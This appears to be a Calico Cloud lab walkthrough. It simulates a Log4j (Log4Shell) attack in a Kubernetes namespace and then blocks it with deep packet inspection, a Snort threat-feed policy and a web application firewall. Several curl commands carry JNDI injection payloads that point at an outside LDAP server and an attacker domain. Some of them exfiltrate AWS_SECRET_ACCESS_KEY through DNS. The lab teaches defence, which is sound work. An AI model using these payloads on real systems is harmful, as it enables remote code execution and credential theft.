






Log4j exploit simulation
================

**So how does this attack work?**
- In simple terms, the attacker exploits the vulnerability by sending a malicious request that includes an IP of the command and control (C&C) server to the Java Log4j server, and then the Log4j library executes it without verification and starts the communication with the C&C server.
- This results in an open threat that can be used to send the malicious payload by crafting a malicious request.

We will simulate the Log4j exploit in the `dev` namespace.


1- Get the IP address of the `vr-dev` service in the `dev` namespace.

```
kubectl get svc -n dev
```

2- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

3- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Notice the IP of the C&C server is part of the query `185.220.101.56`.

4- Now let's go to the Calico Cloud UI to see the impact of this query.
- From the left menu, select **Service Graph** and choose ***Default**
- Double-click **Dev** namespace
- Click on the line that represents the traffic from `multitool` to `vr-dev` and expand the flows to see the details.



- click on the line that represent the traffic from `vr-dev` to `public network` and expnad the fllows to see the deatails.



Now the attacker has an open threat that could be used to send the malicious payload.

It's time to add some guard rails to protect against these malicious requests.

Deep Packet Inspection
================

1- Create a `DeepPacketInspection` resource. In this example, we will enable DPI on the `vr-dev` service in the `dev` namespace.

```bash
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-vr
  namespace: dev
spec:
  selector: app == "vr"
EOF
```

2- Check that the `tigera-dpi` pods are created successfully. It's a daemonSet, so one pod should be created in each node.

```bash
kubectl get pods -n tigera-dpi
```

3- Now, let's re-run our test.

- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

4- This time, you should get an alert in Calico Cloud’s UI. Check the alert in the `Service Graph` or `Alerts` page.






Threat feeds
================
Another mechanism to proactively restrict workload access is to use global threat feeds. Threat feeds are databases of known malicious IPs and FQDN that get updated regularly, and you can integrate them into Calico Cloud.

In this example of the Log4j exploit, the command and control IP address is listed in the Snort threat feed.

Let's configure Snort threat feeds to stop the log4j exploitation.

1- Create GlobalThreatFeed.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalThreatFeed
metadata:
  name: snort-ip-block-list
spec:
  pull:
    http:
      url: https://snort.org/downloads/ip-block-list
  globalNetworkSet:
    labels:
      threatfeed: snort
EOF
```

2- Create a security policy to block traffic to malicious IPs.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: tigera-security.block-snort-ipthreatfeeds
spec:
  tier: tigera-security
  order: 0
  selector: all()
  namespaceSelector: ''
  serviceAccountSelector: ''
  egress:
    - action: Deny
      source: {}
      destination:
        selector: threatfeed == "snort"
  doNotTrack: false
  applyOnForward: false
  preDNAT: false
  types:
    - Egress
EOF
```

3- Repeat the log4j test.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Now you notice that traffic is blocked because the C&C server IP is a malicious IP.





Web Application Firewall (WAF)
================
Calico Cloud’s workload-based web application firewall (WAF) helps you protect cloud-native applications from application-layer attacks.

Important: You need to delete the globalthreatfeeds we created before to ensure it's not blocking the traffic.

```bash
kubectl delete globalthreatfeeds snort-ip-block-list
```

1- In this lab, WAF is enabled by default. You can check the status by running the following command:

```bash
kubectl describe  ApplicationLayer tigera-secure | grep 'Web Application Firewall'
```

2- Now you need to annotate the services for which you wish to enable WAF. In this example, we will annotate the `vr-dev` service.

```bash
kubectl annotate svc vr-dev -n dev projectcalico.org/l7-logging=true
```

3- If you try to exploit the Log4j vulnerability again, traffic should be blocked and you should get the following alert:

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```
- This time you should get a different http response as following

``bash
 HTTP/1.1 403 Forbidden
```

🏁 Finish
============
Click **Next** to continue to the next challenge.

